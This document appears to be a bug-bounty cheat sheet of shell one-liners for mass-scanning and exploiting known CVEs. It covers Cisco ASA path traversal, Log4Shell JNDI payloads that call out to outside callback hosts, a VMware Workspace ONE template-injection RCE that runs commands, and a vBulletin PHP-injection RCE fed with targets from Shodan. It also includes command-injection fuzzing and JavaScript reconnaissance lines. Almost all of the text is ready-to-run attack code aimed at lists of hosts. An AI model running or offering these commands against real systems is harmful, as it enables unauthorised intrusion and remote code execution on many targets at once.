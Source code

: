 ### CVE-2020-3452:
```
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```
### CVE-2021-44228:
```
cat subdomains.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://log4j.requestcatcher.com/a}";done
```
```
cat urls.txt | sed `s/https:///` | xargs -I {} echo `{}/${jndi:ldap://{}attacker.burpcollab.net}` >> lo4j.txt
```
### CVE-2022-0378:
```
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```
### CVE-2022-22954:
```
cat urls.txt | while read h do ; do curl -sk --path-as-is “$h/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/hosts")}”| grep "context" && echo "$h\033[0;31mV\n"|| echo "$h \033[0;32mN\n";done
```
---------
## RCE:
```
cat targets.txt | httpx -path "/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id" -nc -ports 80,443,8080,8443 -mr "uid=" -silent 
```
### vBulletin 5.6.2
```
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```
```
subfinder -d target.com | httpx | gau | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt; ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```
-----------
## JS Files:
### Find JS Files:
```
gau -subs target.com |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt
```
```
assetfinder target.com | waybackurls | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```
### Hidden Params in JS:
```
```